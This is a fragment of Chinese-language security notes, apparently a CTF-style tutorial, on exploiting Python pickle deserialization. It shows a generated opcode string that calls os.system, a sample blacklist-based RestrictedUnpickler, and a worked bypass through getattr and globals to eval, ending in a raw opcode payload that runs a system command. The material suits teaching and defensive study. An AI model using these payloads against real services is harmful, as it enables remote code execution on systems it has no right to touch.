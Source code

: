 结果

```bash
#命令行下
$ python3 pker.py < pker_tests.py
 
b"I0\np0\n0S'id'\np1\n0(g0\nlp2\n0(I0\ntp3\n0(g3\nI0\ndp4\n0cos\nsystem\np5\n0g5\n(g1\ntR."
```

### 绕过

官方给的是重写`Unpickler.find_class()`方法,限制使用模块

#### 绕过RestrictedUnpickler限制

`for i in sys.modules['builtins'].__dict__:print(i)`遍历一下模块函数

![[Pasted image 20231116020611.png]]

假如内置函数中一些执行命令的函数也被禁用了，而我们仍想命令执行，那么漏洞的利用思路就类似于Python中的沙箱逃逸

```python

import pickle
import io
import builtins
 
class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}
 
    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))
 
def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()
```

思路是沙箱逃逸

1. 代码没有禁用`getattr()`函数，`getattr`可以获取对象的属性值。因此我们可以通过`builtins.getattr(builtins,'eval')`的形式来获取eval函数接下来我们得构造出一个`builtins`模块来传给`getattr`的第一个参数，我们可以使用`builtins.globals()`函数获取builtins模块包含的内容.由于返回的结果是个字典，所以我们还需要获取`get()`函数

    最终构造的payload为`builtins.getattr(builtins.getattr(builtins.dict,'get')(builtins.golbals(),'builtins'),'eval')(command)`

    ```python
    opcode=b'''cbuiltins
    getattr
    (cbuiltins
    getattr
    (cbuiltins
    dict
    S'get'
    tR(cbuiltins
    globals
    )RS'__builtins__'
    tRS'eval'
    tR(S'__import__("os").system("whoami")'
    tR.
    '''
    ```